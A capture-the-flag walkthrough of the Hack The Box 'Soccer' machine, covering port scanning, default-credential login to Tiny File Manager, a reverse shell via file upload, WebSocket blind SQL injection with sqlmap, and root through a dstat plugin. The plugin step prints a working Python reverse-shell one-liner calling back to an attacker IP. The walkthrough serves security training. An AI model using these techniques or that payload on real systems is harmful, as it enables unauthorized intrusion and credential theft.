

# ⚽ SOCCER \[HTB-EASY]

<figure><figcaption><p>SOCCER HTB</p></figcaption></figure>

## ENUMERATION:

### PORT SCAN

<pre class="language-bash"><code class="lang-bash">┌──(kali㉿kali)-[~/Desktop/ctfs/Soccer-htb]
└─$ cat nmap/nmap-scan 
# Nmap 7.93 scan initiated Thu Jan  5 05:47:19 2023 as: nmap -sC -sV -p- --min-rate 1500 -oN nmap/nmap-scan soccer.htb
Nmap scan report for soccer.htb (10.10.11.194)
Host is up (0.15s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ad0d84a3fdcc98a478fef94915dae16d (RSA)
|   256 dfd6a39f68269dfc7c6a0c29e961f00c (ECDSA)
|_  256 5797565def793c2fcbdb35fff17c615c (ED25519)
80/tcp   open  http            nginx 1.18.0 (Ubuntu)
|_http-title: Soccer - Index 
|_http-server-header: <a data-footnote-ref href="#user-content-fn-1">nginx/1.18.0</a> (Ubuntu)
<strong>9091/tcp open  xmltec-xmlmail?
</strong>| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, RPCCheck, SSLSessionReq, drda, informix: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|   GetRequest: 
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 139
|     Date: Thu, 05 Jan 2023 10:48:19 GMT
|     Connection: close
|     &#x3C;!DOCTYPE html>
|     &#x3C;html lang="en">
|     &#x3C;head>
|     &#x3C;meta charset="utf-8">
|     &#x3C;title>Error&#x3C;/title>
|     &#x3C;/head>
|     &#x3C;body>
|     &#x3C;pre>Cannot GET /&#x3C;/pre>
|     &#x3C;/body>
|     &#x3C;/html>
|   HTTPOptions, RTSPRequest: 
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 143
|     Date: Thu, 05 Jan 2023 10:48:19 GMT
|     Connection: close
|     &#x3C;!DOCTYPE html>
|     &#x3C;html lang="en">
|     &#x3C;head>
|     &#x3C;meta charset="utf-8">
|     &#x3C;title>Error&#x3C;/title>
|     &#x3C;/head>
|     &#x3C;body>
|     &#x3C;pre>Cannot OPTIONS /&#x3C;/pre>
|     &#x3C;/body>
|_    &#x3C;/html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9091-TCP:V=7.93%I=7%D=1/5%Time=63B6AAED%P=x86_64-pc-linux-gnu%r(inf
SF:ormix,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\
SF:n\r\n")%r(drda,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x2
SF:0close\r\n\r\n")%r(GetRequest,168,"HTTP/1\.1\x20404\x20Not\x20Found\r\n
SF:Content-Security-Policy:\x20default-src\x20'none'\r\nX-Content-Type-Opt
SF:ions:\x20nosniff\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nCon
SF:tent-Length:\x20139\r\nDate:\x20Thu,\x2005\x20Jan\x202023\x2010:48:19\x
SF:20GMT\r\nConnection:\x20close\r\n\r\n&#x3C;!DOCTYPE\x20html>\n&#x3C;html\x20lang=
SF:\"en\">\n&#x3C;head>\n&#x3C;meta\x20charset=\"utf-8\">\n&#x3C;title>Error&#x3C;/title>\n&#x3C;/h
SF:ead>\n&#x3C;body>\n&#x3C;pre>Cannot\x20GET\x20/&#x3C;/pre>\n&#x3C;/body>\n&#x3C;/html>\n")%r(HTT
SF:POptions,16C,"HTTP/1\.1\x20404\x20Not\x20Found\r\nContent-Security-Poli
SF:cy:\x20default-src\x20'none'\r\nX-Content-Type-Options:\x20nosniff\r\nC
SF:ontent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20143\r
SF:\nDate:\x20Thu,\x2005\x20Jan\x202023\x2010:48:19\x20GMT\r\nConnection:\
SF:x20close\r\n\r\n&#x3C;!DOCTYPE\x20html>\n&#x3C;html\x20lang=\"en\">\n&#x3C;head>\n&#x3C;met
SF:a\x20charset=\"utf-8\">\n&#x3C;title>Error&#x3C;/title>\n&#x3C;/head>\n&#x3C;body>\n&#x3C;pre>Ca
SF:nnot\x20OPTIONS\x20/&#x3C;/pre>\n&#x3C;/body>\n&#x3C;/html>\n")%r(RTSPRequest,16C,"HTT
SF:P/1\.1\x20404\x20Not\x20Found\r\nContent-Security-Policy:\x20default-sr
SF:c\x20'none'\r\nX-Content-Type-Options:\x20nosniff\r\nContent-Type:\x20t
SF:ext/html;\x20charset=utf-8\r\nContent-Length:\x20143\r\nDate:\x20Thu,\x
SF:2005\x20Jan\x202023\x2010:48:19\x20GMT\r\nConnection:\x20close\r\n\r\n&#x3C;
SF:!DOCTYPE\x20html>\n&#x3C;html\x20lang=\"en\">\n&#x3C;head>\n&#x3C;meta\x20charset=\"ut
SF:f-8\">\n&#x3C;title>Error&#x3C;/title>\n&#x3C;/head>\n&#x3C;body>\n&#x3C;pre>Cannot\x20OPTIONS\x
SF:20/&#x3C;/pre>\n&#x3C;/body>\n&#x3C;/html>\n")%r(RPCCheck,2F,"HTTP/1\.1\x20400\x20Bad\
SF:x20Request\r\nConnection:\x20close\r\n\r\n")%r(DNSVersionBindReqTCP,2F,
SF:"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n")%r
SF:(DNSStatusRequestTCP,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnecti
SF:on:\x20close\r\n\r\n")%r(Help,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\
SF:nConnection:\x20close\r\n\r\n")%r(SSLSessionReq,2F,"HTTP/1\.1\x20400\x2
SF:0Bad\x20Request\r\nConnection:\x20close\r\n\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jan  5 05:48:32 2023 -- 1 IP address (1 host up) scanned in 73.31 seconds

</code></pre>

So we have a nginx webserver running at port 80 and a mali service at port 9091.

### WEBSERVER ENUMERTION:

**MAIN PAGE:**

The main page of the website looks like this. There is nothing important in the source code as well.

<figure><figcaption><p>index</p></figcaption></figure>

#### TECH PROFILE:

```bash
┌──(kali㉿kali)-[~/Desktop/ctfs/Soccer-htb]
└─$ whatweb http://soccer.htb     
http://soccer.htb [200 OK] Bootstrap[4.1.1], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.194], JQuery[3.2.1,3.6.0], Script, Title[Soccer - Index], X-UA-Compatible[IE=edge], nginx[1.18.0]
bas
```

**DIRECTORY SCAN:**

```bash
________________________________________________

 :: Method           : GET
 :: URL              : http://soccer.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

.htpasswd               [Status: 403, Size: 162, Words: 4, Lines: 8, Duration: 166ms]
.htaccess               [Status: 403, Size: 162, Words: 4, Lines: 8, Duration: 164ms]
tiny                    [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 152ms]
:: Progress: [20469/20469] :: Job [1/1] :: 260 req/sec :: Duration: [0:01:20] :: Errors: 0 ::

```

We found a new directory named tiny.

Let's visit it.

<figure><figcaption><p>tiny file manager</p></figcaption></figure>

This is a login portal for tiny file manager.

Let's find some exploits for this service.


RCE


We found a RCE exploit for tinyfilemanager but this is authenticated so we first need to find some credentials to get this working.

After reading their [github ](https://github.com/prasathmani/tinyfilemanager)page i found some default creds.

<figure><figcaption><p>Default Creds</p></figcaption></figure>

Let's try them.

<figure><figcaption><p>LoggedIn</p></figcaption></figure>

Now we can try the RCE Exploit we found which uses directory traversal and RCE to trigger remote access.

<figure><figcaption><p>Permission error</p></figcaption></figure>

We can't seem to upload the shell in the webroot because we don't have proper permissions.

Let's find a directory and where we can upload files.

<figure><figcaption></figcaption></figure>

Let's change our exploit so it will upload shell in the directory where we have permissions.

If you can't get exploit working you can just upload a shell in the directory and visit the exploit in the new tab.

## INITIAL FOOTHOLD \[www-data]:

By uploading a shell and triggering it we can receive a reverse shell.

<figure><figcaption><p>Reverse shell</p></figcaption></figure>

Now stabilize the shell and then we can start working on privileges' escalation part.

<figure><figcaption><p>Stabilized shell</p></figcaption></figure>

## PRIVILLEGE ESCALATION {Player}:

Let's throw linpeas and see what we can find.

<figure><figcaption><p>Subdomain</p></figcaption></figure>

Let's add his to our hosts file and see what we are dealing with.

### WEBSITE:

<figure><figcaption><p>New Functionalities</p></figcaption></figure>

Let's signup and log in.

#### DIRECTORY SCAN:

```bash
 :: URL              : http://soc-player.soccer.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

                        [Status: 200, Size: 6749, Words: 2358, Lines: 158, Duration: 199ms]
check                   [Status: 200, Size: 31, Words: 6, Lines: 1, Duration: 164ms]
css                     [Status: 301, Size: 173, Words: 7, Lines: 11, Duration: 171ms]
img                     [Status: 301, Size: 173, Words: 7, Lines: 11, Duration: 167ms]
js                      [Status: 301, Size: 171, Words: 7, Lines: 11, Duration: 542ms]
Login                   [Status: 200, Size: 3307, Words: 778, Lines: 99, Duration: 173ms]
login                   [Status: 200, Size: 3307, Words: 778, Lines: 99, Duration: 173ms]
logout                  [Status: 302, Size: 23, Words: 4, Lines: 1, Duration: 182ms]
match                   [Status: 200, Size: 10078, Words: 4012, Lines: 404, Duration: 185ms]
signup                  [Status: 200, Size: 3741, Words: 1015, Lines: 105, Duration: 169ms]
:: Progress: [4614/4614] :: Job [1/1] :: 238 req/sec :: Duration: [0:00:20] :: Errors: 0 ::
                                                                                               bash
```

Let's visit the check directory.

<figure><figcaption></figcaption></figure>

```javascript
<script>
        var ws = new WebSocket("ws://soc-player.soccer.htb:9091");
        window.onload = function () {
        
        var btn = document.getElementById('btn');
        var input = document.getElementById('id');
        
        ws.onopen = function (e) {
            console.log('connected to the server')
        }
        input.addEventListener('keypress', (e) => {
            keyOne(e)
        });
        
        function keyOne(e) {
            e.stopPropagation();
            if (e.keyCode === 13) {
                e.preventDefault();
                sendText();
            }
        }
        
        function sendText() {
            var msg = input.value;
            if (msg.length > 0) {
                ws.send(JSON.stringify({
                    "id": msg
                }))
            }
            else append("????????")
        }
        }
        
        ws.onmessage = function (e) {
        append(e.data)
        }
        
        function append(msg) {
        let p = document.querySelector("p");
        // let randomColor = '#' + Math.floor(Math.random() * 16777215).toString(16);
        // p.style.color = randomColor;
        p.textContent = msg
        }
    </script>
```

After analysing the source code which shows a javascript code that establish a new WebSocket connection to the server at the URL "ws://soc-player.soccer.htb:9091". When the page is loaded, it sets up an event listener for when the user presses the "Enter" key in the input element with the ID "id". When the "Enter" key is pressed, the function "sendText" is called. The "sendText" function is used to send a message to the server through the WebSocket connection. The message consists of a JSON object with a single property "id" and a value equal to the value of the input element.The code also has a function called "append", which is called when the WebSocket connection receives a message from the server. The function takes the message as an argument and sets the text content of the "p" element to the message.

The input parameter could be vulnerable to sqli injection but we cannot test it using sqlmap.

Let's search google for sql injection in websockets.

<figure><figcaption></figcaption></figure>



Grab the script that allows us to use sqlmap and act as a proxy between the websocket and the sqlmap.

Make the necessary changes. `ws_server = "ws://soc-player.soccer.htb:9091"`

and change the `data = '{"id":"%s"}' % message`. Run this script in the one terminal and open another terminal to run sqlmap.

```bash
┌──(kali㉿kali)-[~/Desktop/ctfs/Soccer-htb]                                                                                          
└─$ sqlmap -u "http://localhost:8081/?id=1" -p "id" --dbs   
```

After running the sqlmap we can see the id parameter is vulnerable to blind sql injection. Let's retrieve the databases and their content.


Blind sql injection takes a long time to retrieve content from databases . So be patient.


```bash
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] soccer_db
[*] sys

[05:20:12] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/localhost'

[*] ending @ 05:20:12 /2023-01-06/

```

Dump data .

We will get credentials in plain text for player.

## PRIVILLEGE ESCALATION \[ROOT]

We got the ssh credentials using the sql injection in previous section let's login and find a way to escalate our privileges to root.

> We have credentials of player let's run sudo -l

```bash
player@soccer:~$ sudo -l
[sudo] password for player: 
Sorry, user player may not run sudo on localhost.
player@soccer:~$ 

```

Let's run linpeas.

<figure><figcaption><p>Nopass dstat</p></figcaption></figure>


Doas is a privilege escalation program similar to sudo. It is designed to be as lightweight and simple as possible. It is the default privilege escalation program for OpenBSD but also available for other UNIX-like operating systems through the OpenDoas program.


This can be used to gain privileges' of the root. Dstat allows to run custom module. We can make a   module and run it with dstat.

```bash
player@soccer:/tmp/temp$ nano dstat_temp.py 
player@soccer:/tmp/temp$ cat dstat_temp.py 
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.38",3999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
player@soccer:/tmp/temp$ 

```

Now copy this plugin to dstat directory. and don't forget to start a netcat listner.

```bash
player@soccer:/tmp/temp$ cp dstat_temp.py /usr/local/share/dstat/ 
player@soccer:/tmp/temp$ doas -u root /usr/bin/dstat  --temp
/usr/bin/dstat:2619: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
  import imp

```

On our listner we should get a connection back.

```bash
┌──(kali㉿kali)-[~/Desktop/ctfs/Soccer-htb]
└─$ nc -lnvp 3999  
listening on [any] 3999 ...
connect to [10.10.14.38] from (UNKNOWN) [10.10.11.194] 38560
# id 
id 
uid=0(root) gid=0(root) groups=0(root)
# whoami
whoami
root
# hostname
hostname
soccer
# 

```

Now we have root privilege's on the box. Hope you liked it. Follow me on [Twitter](https://twitter.com/Mujahid\_Hashar).

[^1]: WEBSERVER
